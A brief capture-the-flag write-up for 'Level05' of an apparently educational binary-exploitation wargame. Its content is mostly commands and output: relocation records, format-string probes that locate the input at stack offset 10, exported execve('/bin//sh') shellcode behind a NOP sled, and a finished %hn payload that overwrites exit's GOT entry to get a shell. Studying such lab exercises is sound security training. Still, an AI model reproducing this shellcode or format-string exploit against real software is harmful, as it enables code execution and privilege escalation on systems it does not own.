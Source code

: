 # Level05


```
./level05:     file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE
080497c4 R_386_GLOB_DAT    __gmon_start__
080497f0 R_386_COPY        stdin
080497d4 R_386_JUMP_SLOT   printf
080497d8 R_386_JUMP_SLOT   fgets
080497dc R_386_JUMP_SLOT   __gmon_start__
080497e0 R_386_JUMP_SLOT   exit
080497e4 R_386_JUMP_SLOT   __libc_start_main
```

```
level05@OverRide:~$ python -c 'print "B"*4 + "%08x."*20' | ./level05
bbbb00000064.f7fcfac0.f7ec3add.ffffd66f.ffffd66e.00000000.ffffffff.ffffd6f4.f7fdb000.62626262.78383025.3830252e.30252e78.252e7838.2e783830.78383025.3830252e.30252e78.252e7838.
```

```
level05@OverRide:~$ ./level05
BBBB%10$p
bbbb0x62626262
```

```
export SHELLCODE=`python -c 'print "\x90"*100+"\x31\xc0\x50\x68\x6e\x2f\x73\x68\x
68\x2f\x2f\x62\x69\x89\xe3\x31\xc9\x31\xd2\xb0\x0b\xcd\x80"'`
```

Find the adress of the NOP sled

0xffffd8d0


(python -c 'print "\xe0\x97\x04\x08\xe2\x97\x04\x08%55496x%10$hn%10031x%11$hn"'; cat) | ./level05
